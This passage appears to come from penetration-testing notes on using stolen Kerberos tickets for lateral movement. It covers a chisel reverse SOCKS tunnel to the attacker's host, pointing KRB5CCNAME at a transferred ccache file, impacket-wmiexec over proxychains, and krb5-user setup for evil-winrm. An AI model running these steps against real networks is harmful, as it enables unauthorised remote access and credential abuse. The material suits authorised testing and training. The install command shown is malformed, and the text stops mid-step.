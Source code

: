 
## Execute chisel from host
```
chisel.exe client <our own ip>:8080 R:socks
```
Note: The client IP is your attack host IP.

Finally, we need to transfer <user> ccache file from <computer account etc> and create the environment variable KRB5CCNAME with the value corresponding to the path of the ccache file.

## Setting the KRB5CCNAME Environment Variable
```
export KRB5CCNAME=/home/<your user in your own machine>/<file>
```
## Impacket

To use the Kerberos ticket, we need to specify our target machine name (not the IP address) and use the option -k. If we get a prompt for a password, we can also include the option -no-pass.

## Using Impacket with proxychains and Kerberos Authentication
```
proxychains impacket-wmiexec ms01 -k
```
Note: If you are using Impacket tools from a Linux machine connected to the domain, note that some Linux Active Directory implementations use the FILE: prefix in the KRB5CCNAME variable. If this is the case, we need to modify the variable only to include the path to the ccache file.

## Evil-Winrm

To use evil-winrm with Kerberos, we need to install the Kerberos package used for network authentication. For some Linux like Debian-based (Parrot, Kali, etc.), it is called krb5-user. While installing, we'll get a prompt for the Kerberos realm.

## Installing Kerberos Authentication Package
```
krb5-user -y
```


## Default Kerberos Version 5 realm
![image](https://user-images.githubusercontent.com/24814781/204394569-2ba53cfc-ea7d-4691-bf66-d15b02210f34.png)

The Kerberos servers can be empty.

## Administrative Server for your Kerberos Realm
![image](https://user-images.githubusercontent.com/24814781/204394593-b732769b-b7a4-4194-8ac2-abb4a89458db.png)

 In case the package krb5-user is already installed, we need to change the configuration file /etc/krb5.conf to include the following values:
